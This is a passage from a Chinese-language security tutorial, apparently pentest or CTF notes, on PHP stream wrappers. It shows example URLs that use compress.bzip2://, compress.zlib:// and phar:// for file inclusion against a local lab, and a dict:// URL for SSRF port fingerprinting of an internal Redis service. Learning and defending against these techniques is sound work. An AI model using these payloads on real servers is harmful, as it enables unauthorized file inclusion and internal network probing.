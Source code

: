   ```
  http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
  ```

- compress.zlib://file.gz

  压缩phpinfo.txt为phpinfo.gz并上传(同样支持任意后缀名)

  ```
  http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
  ```

  

## phar://

### 作用

`phar://`协议与`zip://`类似，同样可以访问`zip`格式压缩包内容

### 示例

```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

## dict://

### 条件

- `allow_url_fopen`：`on`
- `allow_url_include`:`on`

### 说明

与gopher协议一般都出现在`ssrf`协议中，用来探测端口的指纹信息。同时也可以用它来代替`gopher`协议进行`ssrf`攻击。

### 用法

- 探测端口指纹

  `http://127.0.0.1/?url=dict://192.168.0.0:6379`